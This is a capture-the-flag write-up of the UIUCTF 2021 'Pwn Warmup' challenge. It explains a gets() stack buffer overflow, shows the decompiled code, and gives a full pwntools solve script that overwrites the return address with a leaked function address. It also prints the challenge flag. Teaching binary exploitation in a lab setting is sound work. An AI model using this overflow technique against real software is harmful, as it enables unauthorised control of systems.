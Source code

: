 # Pwn Warmup - 50 pts, 214 solves
> Hmm this time we arent just going to give you the flag like last year... What can you do?!
> 
> nc pwn-warmup.chal.uiuc.tf 1337
> 
> challenge

`Pwn Warmup` was a pwn (binary exploitation) challenge in UIUCTF 2021, where I played with `TeamlessCTF`, placing 12th place overall. Although my team solved this challenge before I got a chance to during the CTF, I wanted to make a writeup for it anyways.

We first decompile the `main` function in Ghidra:

```C
void main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("This is SIGPwny stack3, go");
  printf("&give_flag = %p\n",give_flag);
  vulnerable();
  return;
}
```

It seems that the challenge first calls `setvbuf` to help input/output to work in the remote connection, and then prints out the address of the `give_flag` function. Then, the program calls the `vulnerable` function, which (of course) is vulnerable. Let's look at the decompilation:

```C
void vulnerable(void)

{
  char buf [8];
  
  gets(buf);
  return;
}
```

Hmmm... The program calls `gets()` on the `buf` variable. Let's read from the man page of `gets`:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

In case you didn't notice:

> Never use this function.

OK. So the program is using an insecure function. Why is `gets()` insecure? According to the man page, `gets` reads input from standard input until a newline, and then *writes it to memory*. No check for how much memory is being written to, so we can overwrite whatever we want in nearby memory by giving the program more input than it is prepared to handle. Let's visualize the memory:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

`buf` is the area we write to, and the saved ebp and saved eip are the places where the program has saved registers for when the program returns to the function from which it was called. If we overwrite it with an address, we can control where the program jumps to after the `vulnerable()` function is done. Luckily for us, the program has provided us with a `give_flag` function that prints out the flag. So our goal is to overwrite the saved eip with the address of give_flag.

**Sidenote: What are ebp and eip and why are they saved on the stack (memory) right now?**
The CPU of a computer has multiple registers, each able to hold a value. In a 32-bit program, the registers each hold 4 bytes (32 bits... see the connection between 32 bit programs and 32 bit registers). The ebp register stores the base address of the stack while the eip register stores the address of the current instruction the program is executing. When a program calls a function, it must store where to return to after the function is called. So, when a function is called ebp and eip are stored on the stack, and are returned to the registers when `ret` is called. So, if we overwrite the saved eip, we can hijack the control flow of the program because we are changing where the program jumps to after the function is finished.

How do we do this? Let's examine memory again.

Let's say we input `AAAAAAAA` into the program. Then the program writes the input to `buf`:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

The program functions as normal, because we did not give more input that it could take. But what if we inputted more text?

Let's say we inputted `AAAAAAAAAAAAAAAAAAAA` (24 `A`s) into the program. Now our memory looks like this:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
```

Our saved eip is now `0x41414141` (note that 0x41 is the hex value of `A` so our `A`s are getting written to the saved eip). This will cause a segmentation fault because the program is trying to jump to the address `0x41414141` but doesn't work because there isn't actually any memory at `0x41414141`. Progress! We crashed the program.

So what if we changed our `0x41414141` with something a little more controlled... Let's say the address of `give_flag`. Luckily, our program prints out the address of `give_flag` when we run it. So, all we need to do is:

- send 20 `A`s to get through `buf` and ebp
- send the address of `give_flag` to overflow eip

Hold on. We can't literally send the numbers that represent the address of `give_flag`, we need to send them in the format that the program expects addresses. We need to send the address as hex, and in *little endian*. This means that we translate our address from hex to ASCII and send it in backwards.

Now, this all seems kind of complicated. But don't fear! We have a trusty python package to do this for us, including formatting the address in little endian and sending those unprintable characters to the server!

We will use the `pwntools` python package, which has all sorts of tools for pwn challenges. We can start a pwntools script:

```python
#!/usr/bin/env python3

from pwn import * # import pwntools

conn = remote("pwn-warmup.chal.uiuc.tf", 1337) # connect to the remote server
``` 

OK! We have a script that will connect to the remote server. Now, we use our program to programatically get the address of `give_flag` that was printed out:

```python
conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)
```

We recieve the input up to `&give_flag = `, then we recieve the rest of the line, which is simply the address in hex. We convert this to an `int`.

Now, it's time to build our payload. We first need 20 `A`s and then the address of `give_flag`. Remember the little endian stuff? Pwntools has a function, `p32`, that will format an address to little endian for 32-bit programs such as this one. (it uses `struct.pack` behind the scenes if you want to figure out what it's doing)

```python
payload = b"A" * 20 # 20 As
payload += p32(give_flag) # format our address in little endian
```

So now we have a payload that will overwrite the saved eip (the return address) with the address of `give_flag`. We send it with pwntools:

```python
conn.sendline(payload) # send the payload to the server
conn.stream() # print the output
```

And with that, we get the flag printed out for us.

Flag: `uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}`

Full solve script:

```python
#!/usr/bin/env python3

from pwn import *

conn = remote("pwn-warmup.chal.uiuc.tf", 1337)

conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)

payload = b"A"*20
payload += p32(give_flag)

conn.sendline(payload)

conn.stream()
```
